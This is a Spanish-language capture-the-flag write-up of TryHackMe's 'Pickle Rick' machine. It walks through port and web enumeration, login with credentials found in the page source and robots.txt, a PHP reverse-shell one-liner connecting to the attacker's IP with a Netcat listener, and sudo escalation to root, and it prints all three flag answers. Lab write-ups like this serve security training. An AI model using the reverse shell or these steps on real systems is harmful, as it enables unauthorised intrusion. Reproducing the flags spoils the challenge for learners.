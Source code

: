 # PickleRick
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío ambientado en la serie de *Rick y Morty* requiere explotar un servidor web y encuentrar 3 ingredientes (*flags*) para ayudar a *Rick* a crear una poción que lo transforme nuevamente en humano. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar fingerprinting y enumeración de puertos y enumeración web.
- Realizar una *reverse shell*.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina a vulnerar. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina víctima.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

![Captura de pantalla 2025-04-04 131854](https://github.com/user-attachments/assets/8527c885-9cdd-499a-ba91-bebcf4b73f80)

El comando devuelve 2 puertos TCPs abiertos:  
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver un mensaje de ayuda de *Rick*. Si se inspecciona el código de la página se puede encontrar un comentario con el nombre de usuario *R1ckRul3s*.

![image](https://github.com/user-attachments/assets/52f9925c-635c-4310-bcb4-342b65b72e7e)

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, únicamente aparece '/assets' pero su contenido no aporta ninguna pista. Sin embargo,sí aparecen varios archivos interesantes que son alzanzables. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'raft-small-files-lowercase.txt'.

![Captura de pantalla 2025-04-04 134454](https://github.com/user-attachments/assets/664445ee-a900-445c-a035-085657bca083)

Al dirigrnos al archivo '/robots.txt' se encuentra lo que parece ser una contraseña, que junto con el usuario antes encontrado, serán útiles para el otro archivo /login.php', también hallado en la enumeración. 

![Captura de pantalla 2025-04-04 134517](https://github.com/user-attachments/assets/efdb16bd-b14c-41bd-bd19-edb158f80200)

| Usuario | Contraseña |
|---------|------------|
| R1ckRul3s | Wubbalubbadubdub |


### Vulnerabilidades explotadas

Al hacer el *log in* se llega a un formulario que accepta comandos. Despues de realizar un <code>whoami</code> y un <code>pwd</code>, se descubre que somos el usuario 'www-data' y estamos en el directorio '/var/www/html'. Ejecutando <code>ls</code>, aparecen la lista de archivos que contiene el directorio entre los que destaca 'Sup3rS3cretPickl3Ingred.txt. Para leer el contenido de este archivo es necesario utilizar el comadno <code>less</code>, en lugar de <code>cat</code>, pues este está deshabilitado y de esta manera se encuentra el primer ingrediente.

<code>less Sup3rS3cretPickl3Ingred.txt</code>

**Flag: mr. meeseek hair**

![image](https://github.com/user-attachments/assets/281596d6-0bb6-454a-99a9-bc4494a38749)

Otro archivo interesante para inspeccionar es 'clue.txt', el cual informa de buscar otro ingrediente alrededor del *file system*. Se intenta navegar por los directorios a través del panel de comandos pero no es posible y se encuentran muchas limitaciones. Por ese motivo se intentará hacer una *reverse shell* para penetrar la máquina y trabajar desde dentro.

![Captura de pantalla 2025-04-08 174710](https://github.com/user-attachments/assets/efdbda6c-9acc-41bf-bac4-90fef94e646e)

Después de comprobar que la máquina víctima tiene **PHP** instalado mediante el comando <code>which php</code>, me dispongo a hacer la *reverse* con el código sacado de la web de [*pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Únicamente es preciso cambiar la dirección IP por la de nuestra máquina atacante (en este caso, nos la proporciona THM mediante la VPN) y el puerto que pondremos en escucha.

<code>php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

Desde la máquina anfitriona se pone en escucha (-l) el puerto (-p) 1234 con la herramienta **Netcat**. Se le indica verbosidad (-v) para que muestre información como las conexiones establecidas y que no resuelva nombres de dominio (-n), solo se conecte a las direcciones IP, lo que hace que la conexión sea más rápida, evitando la resolución de DNS.

![Captura de pantalla 2025-04-08 180322](https://github.com/user-attachments/assets/655dc72c-3564-4a25-be3f-409d1498901a)

Una vez dentro, navegando hacia el directorio '/home/rick' aparece un archivo llamado 'second ingredients' donde se encuentra la segunda bandera. Desde dentro de la máquina ya se puede hacer uso de <code>cat</code> teniendo en cuenta que el archivo lo pondremos entre comas simples, pues su nombre está formado por dos palabras.

<code>cat 'second ingredients'</code>

**Flag: jerry tear**

![Captura de pantalla 2025-04-08 180738](https://github.com/user-attachments/assets/0607b361-f320-4904-a919-d9dfc0f53ef5)

Para encontrar el último ingrediente, se debe escalar privilegios. Primero se comprueba que comandos, el usuario actual (www-data), puede ejecutar con permisos de *sudo*. 

<code>sudo -l</code>

En la respuesta se aclara que se puede pasar a usuario *root* sin necesidad de instertar ninguna contraseña. Esto permite acceder al diretorio /*root* y encontrar dentro del archivo '3rd.txt' el tercer ingrediente.

![Captura de pantalla 2025-04-08 181105](https://github.com/user-attachments/assets/baf2e399-5077-4b13-b7de-40b90db803b0)

**Flag: fleeb juice **
